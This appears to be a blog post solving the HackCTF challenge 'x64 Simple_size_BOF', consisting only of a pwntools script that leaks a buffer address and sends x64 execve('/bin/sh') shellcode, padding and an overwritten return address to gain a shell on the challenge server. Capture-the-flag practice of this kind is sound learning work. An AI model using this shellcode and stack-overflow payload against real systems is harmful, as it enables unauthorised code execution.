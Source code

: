 ```yaml
---
title: "[HackCTF] x64 Simple_size_BOF"
date: 2020-07-09
ctf: HackCTF
tag: [pwnable]
layout: post
---
```


{% highlight python %}
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3005)

p.recvuntil("buf: ")
buf = int(p.recv(1024),16)
print(hex(buf))

p.sendline("\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"A"*27933+p64(buf))
p.interactive()
{% endhighlight %}
